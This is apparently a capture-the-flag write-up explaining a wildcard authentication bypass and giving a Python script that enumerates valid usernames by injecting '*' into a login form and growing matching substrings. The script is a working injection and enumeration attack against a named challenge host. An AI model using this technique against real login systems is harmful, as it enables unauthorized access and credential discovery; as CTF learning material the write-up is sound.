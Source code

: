So by guessing and checking longer and longer substrings, we can find a valid credential. A bunch of matches followed by one mismatch would indicate the username is valid. 

I performed the auth bypass using * : *, and caught the request in Burp proxy. Burp allows you to convert an arbitrary request into a **cURL** command by right-clicking the POST. While this probably could have been done using some bash scripting and cURL, I am more comfortable in Python. 

> Check out this wonderful website that does the conversion of **cURL** to Python **Requests**: https://curl.trillworks.com/#python

To extract the first matching username, I wrote this script (based on the above Requests snippet):

```python
#!/bin/python3

import requests

matchCodes = [200,302]
filterLocation = ['ailed']

alphabet = [c for c in "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_."]
maxLength = 40

headers = {
    'Host': '68.183.41.74:31495',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '21',
    'Origin': 'http://68.183.41.74:31495',
    'Connection': 'close',
    'Referer': 'http://68.183.41.74:31495/login',
    'Upgrade-Insecure-Requests': '1',
}

longstrings = []

def longestChildren(s):
    data = f'username={s}*&password=*'
    response = requests.post('http://68.183.41.74:31495/login', headers=headers, data=data, allow_redirects=False)
    # If this POST was unsuccessful, then this is not a valid substring.
    if (len(s) >= maxLength or response.status_code not in matchCodes):
        return
    # If the response contains any of the filter text, reject it
    for badStr in filterLocation:
        if response.headers['Location'].find(badStr) >= 0:
            return
    print(f"Found: {s}")
    if s[:-1] in longstrings:
        longstrings.remove(s[:-1])
    longstrings.append(s)
    for c in alphabet:
        longestChildren(s+c)

print('----------------------------------')

longestChildren('')
print("Completed. Matching substrings: ")
for s in longstrings:
    print(s)
```
